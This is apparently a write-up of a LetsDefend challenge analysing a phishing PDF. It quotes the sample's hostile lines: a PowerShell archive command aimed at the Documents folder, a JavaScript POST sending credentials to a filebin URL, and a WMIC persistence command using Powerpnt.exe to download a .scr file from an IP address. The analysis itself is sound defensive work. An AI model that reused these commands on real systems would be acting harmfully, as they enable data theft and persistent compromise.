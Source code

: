 ```yaml
---
title: PDF Analysis
author: 0wlexe
date: 2022-12-11 20:55:00 +0800
categories: [Writeups, LetsDefend] 
tags: [File Analysis, Malware Analysis, Phishing]
pin: false
image:
  path: /assets/img/posts/pdf-analysis.png
  alt: Analysis of a PDF file in order to detect if there’s any signs of malicious behavior and possible indicators of compromise.
---
```


## Summary:
An employee has received a suspicious email:
  ```
From: systemsupdate@letsdefend.io
To: paul@letsdefend.io
Subject: Critical — Annual Systems UPDATE NOW
Body: Please do the dutiful before the deadline today.
Attachment: Update.pdf
Password: letsdefend
  ```

![Figure 01 - Simulation of the e-mail](https://miro.medium.com/v2/resize:fit:720/format:webp/1*e2ypH0L_zoVi--rIYGxseQ.png)

The employee has reported this incident to you as the analyst which has also forwarded the attachment to your SIEM. They have mentioned that they did not download or open the attachment as they found it very suspicious. They wish for you to analyze it further to verify its legitimacy.

**NOTE: Do not open in your local environment. It is a malicious file.**

This challenge was prepared by [@DXploiter.](https://twitter.com/DXploiter)

## Information we should find:

1. What local directory name would have been targeted by the malware?
2. What would have been the name of the file created by the payload?
3. What file type would this have been if it were created?
4. Which external web domain would the malware have attempted to interact with?
5. Which HTTP method would it have used to interact with this service?
6. What is the name of the obfuscation used for the Javascript payload?
7. Which tool would have been used for creating the persistence mechanism?
8. How often would the persistence be executed once Windows starts? (format: X.X hours)?
9. Which LOLBin would have been used in the persistence method?
10. What is the filename that would have been downloaded and executed using the LOLbin?
11. Where would this have been downloaded from? (format: IP address)
12. Which country is this IP Address located in?

## Write-up

In order to analyze the contents of the .pdf file, we can use the strings command to extract all strings present in our specified file “Update.pdf”.

![Figure 02 - Extraction of the pdf file using strings command](https://miro.medium.com/v2/resize:fit:720/format:webp/1*5B01xTv3ZVcjaovRnskcBg.png)

Taking a closer look at the strings of the file, it is possible to find a powershell command encoded in Base64.

![Figure 03 - Powershell encoded command](https://miro.medium.com/v2/resize:fit:720/format:webp/1*MkaEM89trAJ-bI_cBygHIg.png)

By decoding the previous command with a decoder tool, there’s a text of reversed characters, we can tell it by taking an even closer look: `p1zsc0D%wqnwnnjekwinz%stnemucoD%:C htaPnoitanitseD- etadpU- *%stnemucoD%:C htaP- evihcrA-sserpmoC`

![Figure 04 - Cryptii Decoder Tool, Base64 to text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*euw4Dx1jIhWHGRIdX1SLZQ.png)

Reversing the string, you should find the hidden powershell command: `Compress-Archive -Path C:%Documents%* -Update -DestinationPath C:%Documents%zniwkejnnwnqw%D0csz1p`

![Figure 05 - Code Beautify Tool, Reverse String](https://miro.medium.com/v2/resize:fit:720/format:webp/1*882lAlFlSasi_SXFGyqn5Q.png)

By analysing the previous command, we have gathered the following information about the payload created by the malware:

- `Compress-Archive` - Command to compress the archive;
- `Path C:%Documents%*` - Local directory targeted by the malware;
- `Update -DestinationPath C:%Documents%zniwkejnnwnqw%D0csz1p` - Update the destination path to create a new folder **“zniwkejnnwnqw”** containing the file **“D0csz1p”** which looks similar to **’docs.zip’.**

Going back to the strings of our file, there’s more lines of code we should also pay attention to. From the following lines, we can “get” a POST request, an HTTP method designed to send data to the server from an HTTP client.

![Figure 06 - Lines of code streaming data from client with HTTP - POST request](https://miro.medium.com/v2/resize:fit:720/format:webp/1*z66QaTxsqSrft2oLzrS8fQ.png)

However, by looking at these lines of code alone, we can only assume there is a JavaScript Object Notation (JSON) to be sent, but it’s not very clear to who it is being sent because it’s obfuscated.

![Figure 07 - Custom function eval(p,a,c,k,e,d)](https://miro.medium.com/v2/resize:fit:720/format:webp/1*8hljApXrvvHnp2Djeo8YvA.png)

The `eval(p,a,c,k,e,d)` function evaluates JavaScript code represented as a string and returns its completion value. The source is parsed as a obfuscated script.

In order to have a better look at the script, we can use a tool to format the previous lines of code into something more readable.

![Figure 08 - Javascript Beautifier Tool](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ihY6E-M1cQeWc0VK6BvI3Q.png)

From the previous function, we can observe the following information:

- The file is trying to interact with the external domain: `“https://filebin[.]net/0flqlz0hiz6o4l32/D0csz1p"` by a POST request;
- The data it is trying to send are credentials that should be armazenated in the var data = `‘{“login”:””,”password”:””}’`.

Now in order to find which tool would have been used for creating the persistence mechanism within the payload, we should go back to the strings of the PDF and analyse the contents of the /ObjectAction.

![Figure 09 - Powershell script within the contents of the /ObjectAction](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ogFKxxMT34rKFm0x0g6UsQ.png)

We can open the script on powershell in order to find out more information, but instead of actually running it, we should change the input from `invoke-Expression $LoadCode` (to run the script) into `“Write-Output $LoadCode”` (to print the content of the script).

![Figure 10 - Powershell ISE, Write-Output of the script](https://miro.medium.com/v2/resize:fit:720/format:webp/1*CQUlYjYT0L_FHdFVjHlubQ.png)

Useful information taken from the script:

- `Query=”SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE TargetInstance ISA ‘Win32_PerfFormattedData_PerfOS_System’”` The suspicious script should get events from a remote location within 9000 seconds;
- `wmic /NAMESPACE:”\\root\subscription” PATH CommandLineEventConsumer CREATE Name=”RHWsZbGvlj”, ExecutablePath=”C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe ‘http://60.187.184[.]54/wallpaper482[.]scr'`  It is creating a process to run a specified executable program from a command line under the LOLBin **“Powerpnt.exe”**, which downloads the file **“wallpaper482.scr”** hosted in the suspicious IP domain **60.187.184[.]54;**

![Figure 11 - VirusTotal information on the suspicious IP](https://miro.medium.com/v2/resize:fit:720/format:webp/1*_gTFVLWE5H4gnAQq5B6CkQ.png)

- Running the previous suspicious IP on VirusTotal, it is detected by five Antivirus’ vendors as a possible indicator of compromise located in China;

![Figure 12 - Information from the Whois Lookup](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Xsx33ZmjPL3ANVCmH2Oaew.png)

- In order to confirm its location, we can get the following information from the Whois: the IP is hosted under the ISP **CHINANET-ZJ**, located in Shaoxing, Zhejiang, China.

That should be enough to answer all the questions from the challenge. Thank you for reading!



